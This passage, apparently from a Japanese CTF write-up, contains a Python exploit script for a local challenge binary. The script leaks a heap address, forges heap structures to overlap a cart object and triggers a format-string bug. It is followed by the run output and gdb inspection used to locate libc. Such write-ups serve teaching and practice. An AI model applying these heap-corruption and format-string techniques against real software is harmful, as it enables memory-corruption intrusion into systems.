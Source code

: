 ```python

# leak heap address
add_item(3)
add_item(0)
item = view_order(0)
addr_heap = u64(item[0x18:])
dump("heap = " + hex(addr_heap)) # address to the name of item[1]
addr_cart0 = addr_heap - 0x70 + 0x10

# forgery name link
fake_name = b'A' * 0x18
fake_name += p64(addr_cart0)
remove_item(1)
add_name(fake_name) # addr_heap

# malloc for FSB
payload = "%p"
add_name(payload) # addr_heap + 0x60

# cart overlap
fake_cart = b''
fake_cart += p64(addr_heap + 0x60)
fake_cart += p64(addr_heap + 0x60)
fake_cart += p64(addr_heap)
fake_cart += p64(1)
remove_item(2)
add_name(fake_cart)

# FSB
print(view_order(0))

sock.interactive()
```

ここまで長かった......
```
$ python solve.py
[+] Socket: Successfully connected to 127.0.0.1:9001

[ptrlib] heap = 0x23db070
b'0x7ffcf343a690'
[ptrlib]$
```

gdbで調べると，FSBでスタック上2つ目にあるアドレスは`_IO_stdfile_1_lock`だそうです．
また，5つ目のアドレスは`vfprintf+19661`でした．
```
gdb-peda$ x/4wx 0x7f2d8289ea00
0x7f2d8289ea00 <_IO_stdfile_1_lock>:    0x00000000      0x00000000      0x00000000      0x00000000
gdb-peda$ x/4wx 0x7f2d8252314d
0x7f2d8252314d <vfprintf+19661>:        0xfaf0bd80      0x0f00ffff      0xffcacd85      0x058b48ff
```
dockerが無いので，とりあえずこの2つからlibcが特定できたとして話を進めます．
（もう少し先に`__libc_start_main+ret`もあったので大丈夫そうです．）
libcのロードアドレスは特定できたので任意のアドレスを呼び出す方法を考えましょう．

